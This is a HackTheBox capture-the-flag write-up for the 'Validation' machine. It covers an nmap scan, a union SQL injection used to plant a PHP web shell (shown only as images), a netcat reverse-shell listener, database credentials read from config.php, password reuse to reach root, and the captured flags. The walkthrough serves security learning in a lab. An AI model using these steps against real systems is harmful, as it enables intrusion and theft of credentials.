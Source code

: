 # Validation - HackTheBox

![](/root/.config/marktext/images/2022-06-08-13-34-21-image.png)





## 1. Enumeration

### Nmap Initial Scan

```
┌──(root💀kali)-[~/htb/validation]
└─# cat nmap_init  
# Nmap 7.92 scan initiated Wed Jun  8 13:36:56 2022 as: nmap -sC -sV -oN nmap_init 10.129.95.235
Nmap scan report for 10.129.95.235
Host is up (0.15s latency).
Not shown: 992 closed tcp ports (reset)
PORT     STATE    SERVICE       VERSION
22/tcp   open     ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp   open     http          Apache httpd 2.4.48 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.48 (Debian)
5000/tcp filtered upnp
5001/tcp filtered commplex-link
5002/tcp filtered rfe
5003/tcp filtered filemaker
5004/tcp filtered avt-profile-1
8080/tcp open     http          nginx
|_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jun  8 13:37:14 2022 -- 1 IP address (1 host up) scanned in 17.98 seconds
                                                                                               
```



### Union SQL Injection

![](/root/.config/marktext/images/2022-06-08-14-31-28-image.png)



![](/root/.config/marktext/images/2022-06-08-14-31-36-image.png)





Now, writes shell code into shell.php

![](/root/.config/marktext/images/2022-06-08-14-39-45-image.png)



While passing system command to the url we can execute system commands.

![](/root/.config/marktext/images/2022-06-08-14-49-21-image.png)





Let's create a bash reverse shell by turning listener on netcat

![](/root/.config/marktext/images/2022-06-08-14-50-59-image.png)





We now logged in as www-data,

```
┌──(root💀kali)-[~/htb/validation]
└─# nc -lvnp 1234                            
listening on [any] 1234 ...
connect to [10.10.16.18] from (UNKNOWN) [10.129.95.235] 39514
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@validation:/var/www/html$ whoami
whoami
www-data

```





Now we got some credentials,

```
www-data@validation:/var/www/html$ cat config.php
cat config.php
<?php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>

```





As there is no python installed, we can make interactive shell using,

```
www-data@validation:/var/www/html$ script -q /dev/null bash
```





The password we previously got looks like a global one, lets try - 

```
root@validation:/var/www/html# cd /home
root@validation:/home# ls
htb
root@validation:/home# cd htb
root@validation:/home/htb# ls
user.txt
root@validation:/home/htb# cat user.txt 
c55c4f48f5dc7a57469823b7cd13f39d
root@validation:/home/htb# cat /root/root.txt 
9994b530a9f83091fe4bafe64981ee27

```


